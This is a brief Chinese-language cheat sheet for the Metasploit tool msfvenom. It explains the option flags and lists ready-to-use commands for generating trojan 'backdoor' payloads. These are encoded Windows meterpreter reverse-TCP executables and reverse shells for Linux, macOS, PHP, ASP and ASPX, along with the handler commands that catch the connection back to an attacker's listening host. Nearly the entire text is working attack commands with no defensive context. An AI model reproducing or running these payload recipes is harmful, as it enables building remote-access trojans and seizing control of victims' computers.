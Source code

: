 ```
-p: 指定payload模块			-l ：列出可用项
-f ：指定文件类型			-e:  加载编码器
-b：删除无效字符			-i ：指定编码次数
-x: 捆绑文件				-o：导出文件
```

二、常见的生成后门模式

```
生成一个常见木马文件：
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 lhost=192.168.174.139 lport=1250 -f exe > shell.exe

使用msfvenom快速生成木马并且进行连接
监听模块:
use exploit/multi/handler
设置payload：
set payload windows/meterpreter/reverse_tcp
set thost 192.168.177.128
set lport 1250
run
```

```
1.Windows
Msfvenom –platform windows –a x86 –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:\back.exe 
Msfvenom –platform windows –a x86 –p windows/x64/meterpreter/reverse_tcp –f exe –o C:\back.exe
 
2.Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
 
3.MAC
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
 
4.PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.138 LPORT =1520 -f raw > shell.php
 
5.Asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
 
6.Aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx
```